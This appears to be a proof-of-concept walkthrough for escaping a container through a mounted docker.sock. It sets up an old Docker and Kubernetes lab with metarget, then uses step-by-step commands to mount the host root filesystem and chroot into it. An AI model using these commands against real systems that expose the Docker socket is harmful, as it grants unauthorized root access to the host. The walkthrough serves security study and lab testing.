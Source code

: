 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Basic environment setup for Docker and K8+. Execute the following commands inside the metarget folder.<br/>
`./metarget gadget install docker --version 18.03.1` <br/>
`./metarget gadget install k8s --version 1.16.5 --domestic`
2. Prepare the vulnerable environment using the following command. <br/>
`./metarget cnv install mount-docker-sock`

3. Create an alpine image with with mounted docker.sock <br/>
`docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock alpine sh`
4. Verify if the docker.sock has been mounted. <br/>
`ls /var/run/docker.sock `
5. Check if the docker is installed inside the container or not. If not then execute the following commands. <br/>
`apk update` <br/>
`apk add -U docker`
6. After mounting docker.sock, the malicious container has full access to managing containers. Now create a new container with mounted root directory. <br/>
`docker -H unix://var/run/docker.sock run -it -v /:/host -t alpine sh`<br/>
`chroot host`
7. Inside the malicious container, create a file. <br/>
`touch sockpwn_success`
8. Perform a read on this file from host. <br/>
`cat sockpwn_success`